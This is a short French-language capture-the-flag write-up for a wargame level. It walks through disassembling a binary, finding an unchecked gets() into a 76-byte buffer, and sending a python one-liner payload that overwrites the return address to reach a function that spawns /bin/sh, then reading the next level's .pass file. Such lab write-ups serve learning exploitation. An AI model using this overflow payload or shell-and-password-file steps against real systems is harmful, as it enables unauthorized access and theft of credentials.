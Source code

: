 Comment trouver le flag1

On a encore un programme quand on le disassemble on voit que y'a une fonction gets et que le programme s'arrete

info function

On voit que le main a une function gets appelée on peut ecrire dans ce buffer (potentiel overflow)
on voit que la function RUN n'est pas execute dans le main


donc on va essayer d'overflow le gets grace a un buffer overflow generator https://wiremask.eu/tools/buffer-overflow-pattern-generator/
l'overflow a lieu a partir de 76 (quand on decompile l'executable, sur ghidra on voit le buffer[76] qui est donne a gets)

on va donc faire une commande python

<!-- python -c "print 76 * 'a' + '\x08\x04\x84\x44'[::-1]" > /tmp/overflow

on va ouvrir un STDIN avec un cat et faire executer notre overflow 

cat /tmp/overflow - | ./level1 -->

(python -c "print 'A' * 76 + '\x08\x04\x84\x44'[::-1]"; cat) | ./level1

On va jusqu'a l'overflow du buffer, puis on envoi la chaine d'octets en little-endian du lancement de la fonction "run" qui lance un /bin/sh
On cat en second temps pour avoir acces au sous shell avant de segfault, et tout ca est envoye dans ./level1

whoami dans le stdin -> L'overflow a marcher puisqu'on voit qu'on est le level2

cat /home/user/level2/.pass , et on a notre flag